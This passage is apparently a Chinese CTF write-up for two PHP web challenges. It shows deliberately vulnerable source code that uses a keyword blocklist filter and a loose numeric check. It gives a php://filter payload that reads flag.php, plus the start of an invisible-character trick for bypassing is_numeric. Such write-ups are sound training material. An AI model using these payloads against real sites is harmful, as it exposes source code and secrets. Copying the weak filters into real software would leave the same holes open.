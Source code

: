## 114-同112

```php
function filter($file){
   		  			      if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

压缩包和root也都被过滤了，不过filter放出来了

```
php://filter/resource=flag.php
```

## 115-综合绕过

```php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

看关键判断

`if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36')`

1、在数字前加不可见字符可以通过is_numeric()的判断，且`强比较`不为36
